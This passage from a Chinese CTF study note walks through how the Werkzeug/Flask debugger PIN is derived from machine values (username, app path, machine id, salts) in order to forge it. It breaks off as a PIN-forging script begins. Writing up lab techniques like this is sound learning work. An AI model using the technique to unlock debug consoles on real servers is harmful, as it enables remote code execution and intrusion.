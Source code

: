 >
> 第六轮：bit为`b'597e57a4-9ce2-4346-a4d6-b52791bc8965'`前面的到的id，最后为
>
> ```ABAP
> 259525flask.appFlaskC:\\Users\\25952\\AppData\\Local\\Programs\\Python\\Python310\\lib\\site-packages\\flask\\app.py127872478608824597e57a4-9ce2-4346-a4d6-b52791bc8965
> ```
>
> 出了循环后又进行了一次`h.update(b"cookiesalt")`，最后的最后为
>
> ```abap
> 259525flask.appFlaskC:\\Users\\25952\\AppData\\Local\\Programs\\Python\\Python310\\lib\\site-packages\\flask\\app.py127872478608824597e57a4-9ce2-4346-a4d6-b52791bc8965cookiesalt
> ```
>
> `cookie_name = f"__wzd{h.hexdigest()[:20]}"`这一步是`__wzd加上h的前20位`，此时它的值为
>
> ```abap
> __wzdfff9e903aea4a5349592
> ```
>
> 很显然我的机器循环到这里num为None
>
> ```python
> if num is None:
>         h.update(b"pinsalt")
>         num = f"{int(h.hexdigest(), 16):09d}"[:9]
> ```
>
> h再次添加，最后的最后的最后为
>
> ```abap
> 259525flask.appFlaskC:\\Users\\25952\\AppData\\Local\\Programs\\Python\\Python310\\lib\\site-packages\\flask\\app.py127872478608824597e57a4-9ce2-4346-a4d6-b52791bc8965cookiesaltpinsalt
> ```
>
> num此时则是转十六进制的h的前九位数(本地测试`:09d`加了和没加的结果是一样的)
>
> 最后就是得到rv的运算了，就和**num**有关了
>
> ```python
> for group_size in 5, 4, 3:
>             if len(num) % group_size == 0:
>                 rv = "-".join(
>                     num[x : x + group_size].rjust(group_size, "0")
>                     for x in range(0, len(num), group_size)
>                 )
>                 break
>         else:
>             rv = num
> ```
>
> 当你得到正确的**num**，套入此步就能得到正确的rv，所以无需分析此步加密
>
> 附一张调试到最后的图
>
> ![image-20220903165919490](D:\Typora\note\CTF\web\知识点\flask算PIN.assets\image-20220903165919490.png)
>
> 附上伪造PIN的代码
>
> ```python
> import hashlib
> 